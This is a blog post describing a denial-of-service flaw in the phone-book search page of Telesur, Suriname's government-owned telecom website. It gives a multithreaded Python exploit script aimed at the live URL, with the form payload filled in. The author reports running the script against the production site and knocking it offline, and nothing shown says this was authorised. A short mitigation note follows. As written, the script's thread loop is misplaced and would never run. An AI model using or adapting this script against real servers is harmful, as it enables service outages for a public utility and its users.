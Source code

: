 ```yaml
---
layout: post
current: post
cover:  assets/images/tele0ops/tele0ops.png
navigation: True
title: Tele0ops - Telesur Resource Starvation Attack Vulnerability
date: 2019-12-14 01:43:01
excerpt: A resource starvation vulnerability has been discovered on Telesur’s website, the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server.

tags: Exploitation
class: post-template
subclass: 'post tag-exploitation'
author: girish
---
```


# Introduction
A resource starvation vulnerability has been discovered on Telesur’s website [https://www.telesur.sr](https://www.telesur.sr), the government-owned telecommunications company for Suriname. The resource starvation vulnerability can lead to a Denial of Service (DoS) of the server, rendering the website unavailable for any visitors. In this document I will demonstrate how this vulnerability can be exploited and mitigated.

# Vulnerable Pages
The following pages are vulnerable to the resource starvation attack:

* [/mijn-telesur/telefoonboek/](https://www.telesur.sr/mijn-telesur/telefoonboek/)

# Exploitation
First, I will check whether the website is online with an online tool. I used [Uptrends](https://www.uptrends.com/tools/uptime):

![website status](/assets/images/tele0ops/1.png)

Great! Looks like it’s online.
Now let’s head over to [/mijn-telesur/telefoonboek/](https://www.telesur.sr/mijn-telesur/telefoonboek/) and look up some phone numbers:

![telesur telefoonboek](/assets/images/tele0ops/2.png)

Through random experimentation I stumbled across something interesting whenever an asterisk “*”
gets entered into the “name” field like so:

![telesur telefoonboek](/assets/images/tele0ops/3.png)

Submitting this request triggers the following error on the server:

![telesur telefoonboek error message](/assets/images/tele0ops/4.png)

It looks like the server is trying to load all the data that exists in the database into memory and return it but when it hits the maximum data that is allowed to be loaded into memory (set in the ASP.NETconfiguration) which is 20 000 000 Bytes or 20 MB it returns the above error. This is a problem when there are multiple requests like this sent to the server which causes 20 MB to be loaded into memory for every request. Depending on the amount of requests sent and the amount of memory available on the server it can lead to a resource starvation attack and render the server unresponsive.


Let’s monitor the request and try sending it with a Python script:

![telesur telefoonboek error message](/assets/images/tele0ops/5.png)

### Exploit code:

```python
#!/usr/bin/python

# exploit.py

import time
import requests
import threading

FORM_URL = 'https://www.telesur.sr/mijn-telesur/telefoonboek/'
USER_AGENT = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36'

HEADERS = {
'User-Agent': USER_AGENT
}

PAYLOAD = {
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$tbNaam': '*',
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$tbAdres': '',
    'ctl00$ctl00$ctl00$ContentPlaceHolderDefault$cp_mid$cp_content$Telefoonboek_11$btnSubmit': 'Zoek telefoonnummer',
    '__EVENTARGUMENT': '',
    '__EVENTTARGET': '',
    '__VIEWSTATE':
    '/wEPDwUENTM4MQ9kFgJmD2QWAmYPZBYCZg9kFgJmD2QWAgIND2QWAgILD2QWAgIBEGRkFgICAQ9kFgJmD2QWAgINDzwrABECARAWABYAFgAMFCsAAGQYAQVZY3RsMDAkY3RsMDAkY3RsMDAkQ29udGVudFBsYWNlSG9sZGVyRGVmYXVsdCRjcF9taWQkY3BfY29udGVudCRUZWxlZm9vbmJvZWtfMTEkUmVzdWx0c0dyaWQPZ2QaLq2Bl/1/EvEOj8oEFDn3CWHLEDT6Ot8njNoshplL/Q==',
    '__VIEWSTATEGENERATOR': 'CA0B0334'
}


def make_request():
    while True:
        print('Sending request...')
        requests.post(FORM_URL, data=PAYLOAD, headers=HEADERS)
        print('Done.')

    for thread_number in range(800):
        thread = threading.Thread(target=make_request)
        thread.start()
        print(f'Started thread #{thread_number}.')
```


Now let’s execute the script:


```$ python3 exploit.py```


And let’s check the website status again:

![telesur website status](/assets/images/tele0ops/6.png)

BOOM! The server is now unresponsive and we can’t load the main website.


# Mitigation
A Google search for the exception thrown returned the following Stack Overflow answer:

![Stackoverflow solution for mitigation](/assets/images/tele0ops/7.png)

> [https://stackoverflow.com/a/884248](https://stackoverflow.com/a/884248)

So you should choose the maximum amount of memory that can be loaded for every request carefully and make sure not to choose a too big amount or else the server will be vulnerable to a DoS attack. Another option would be to implement [data paging](https://stackoverflow.com/a/11789529) for the returned results from the database.


The vulnerability was discovered on 4 Oct 2019.


### Conclusion
Yeaaahh, I know, they should hire me :)
